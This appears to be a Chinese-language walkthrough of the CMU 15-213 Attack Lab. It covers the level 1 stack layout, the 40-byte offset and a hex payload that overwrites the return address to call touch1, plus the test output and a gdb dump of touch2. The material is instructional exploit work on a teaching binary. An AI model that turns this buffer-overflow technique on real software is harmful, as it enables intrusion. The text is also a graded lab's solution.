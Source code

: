 栈高地址

|return address high|0x32(%rsp)|
|---|---|
|return address low|0x28(%rsp) <+0>时刻rsp的位置|
|...|...|
|我们输入开始的位置|(%rsp) |

栈低地址

用`(gdb)info registers`可以看到rbp不再和32位的作用一样

`0x0-(-0x28)=40` 所以要`40`个字符以后才会覆盖`return address`也就是我们要写入的touch1的地址 `0x00 00 00 00 00 40 17 c0 `注意小端表示法

`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00`

写入`exploit.ans1`

测试

```
cat exploit.ans1 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

有的博文的高位没有写零,也就是最后5个`00`只有1个 虽然也能执行 因为原本存的地址 就是`0x00 00 00 00 00 40 19 76` 直接覆盖低位也是填入了“正确”的返回地址,还要感谢字符串借尾符是'\0'也就是`00`

那这样说 我只写到`c0 17 40`也是对的,一个`00`都不用加 [注意字符串输入会被Gets补结束'\0' ,如果只写到`c0 17`就结束的话`40`会被结束'\0'覆盖]

只能说“刚好”又不是“刚好”的对了,所以真正正确的应该有5个`00`

### level 2

```
(gdb) disass touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>: sub    $0x8,%rsp
   0x00000000004017f0 <+4>: mov    %edi,%edx
   0x00000000004017f2 <+6>: movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:  cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:  jne    0x401824 <touch2+56>
```

看官方文档和objdump出来的自带注释 猜都猜到了 `cmp    0x202ce2(%rip),%edi`也就是if里面的比较
